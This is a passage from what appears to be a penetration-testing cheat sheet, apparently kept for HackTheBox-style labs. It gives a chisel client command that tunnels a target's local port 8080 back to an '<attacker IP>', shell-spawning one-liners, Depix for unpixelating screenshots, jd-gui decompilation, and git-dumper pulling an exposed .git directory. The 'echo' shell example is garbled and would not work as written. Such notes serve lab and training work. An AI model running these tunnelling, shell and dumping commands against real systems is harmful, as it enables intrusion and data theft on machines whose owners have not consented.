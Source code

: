 Client:
```shell
./chisel_1.10.0_linux_amd64 client <attacker IP>:12312 R:8081:127.0.0.1:8080
```

After running the above commands, we can access http://127.0.0.1:8081/ in attacker PC.


# Depixelize
## Depix
https://github.com/spipm/Depix
Depix is a PoC for a technique to recover plaintext from pixelized screenshot.

```shell
python3 depix.py \
    -p /path/to/your/input/image.png \
    -s images/searchimages/debruinseq_notepad_Windows10_closeAndSpaced.png \
    -o /path/to/your/output.png
```


# Spawning shell
## python
```shell
python3 -c 'import pty;pty.spawn("/bin/bash")'
```
## echo
```shell
echo 'os.system('/bin/bash')'
```
## bash
```shell
/bin/bash -i
```

# JDI
Decompiling jar and class.
```shell
jd-gui <filename>
```

# Git
## Dump .git
https://github.com/arthaud/git-dumper
```
git-dumper http://siteisup.htb/dev/.git dev
```
